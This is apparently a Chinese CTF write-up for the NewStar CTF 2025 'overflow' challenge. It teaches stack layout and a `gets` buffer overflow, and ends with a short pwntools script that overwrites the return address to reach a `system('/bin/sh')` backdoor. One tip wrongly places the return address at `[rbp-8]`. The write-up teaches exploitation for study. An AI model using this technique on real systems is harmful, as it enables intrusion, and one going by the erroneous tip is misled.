 ```yaml
---
titleTemplate: ":title | WriteUp - NewStar CTF 2025"
---
```


# overflow

> [!INFO]
> 本题考查的是 栈溢出和对栈结构的理解

在本题开始之前，你需要先了解栈结构与栈溢出。


栈是一种典型的后进先出 <span data-desc>(Last in First Out)</span> 的数据结构，它的基本结构是栈顶<span data-desc>（rsp 寄存器的值）</span>和栈底<span data-desc>（rbp 寄存器的值）</span>。其操作主要有压栈<span data-desc> (push) </span>与出栈<span data-desc> (pop)</span> 两种操作；push 可以把寄存器里的值或者一个立即数压入栈，pop 则是把 rsp 寄存器<span data-desc>（也就是栈顶）</span>指向的值弹出给一个寄存器。

push 操作：

![push](/assets/images/wp/2025/week1/overflow_1.png)

pop操作：

![pop](/assets/images/wp/2025/week1/overflow_2.png)

> [!TIP]
>   以 64 位为例，对于函数调用栈来说，`[rbp-8]` 的位置会跟随一个 `return`，`return` 决定了函数的返回地址。

栈溢出漏洞：通过向栈中写入超出预期的数据，覆盖返回地址或其他关键数据，从而劫持程序的执行流

本题的 `try` 函数中有一个 `gets` 函数，这个函数不限制读入的长度，就会造成栈溢出。


![alt text](/assets/images/wp/2025/week1/overflow_3.png)

本题还有一个后门函数，那接下来思路就很清晰了，先填垃圾数据把栈填满，然后把 return 的位置写上我们的后门函数的地址就能顺利执行 `system("/bin/sh")`

![alt text](/assets/images/wp/2025/week1/overflow_4.png)

> [!TIP]
>   这里的返回地址不能直接填 `0x401200`，会造成栈不对齐的问题，填 `0x401201` 即可

下面附上 exp。

```python
from pwn import *
r = remote('ip', port)
#r = process('./overflow')
payload = b'A' * 0x108 + p64(0x401201)
r.sendline(payload)
r.interactive()
```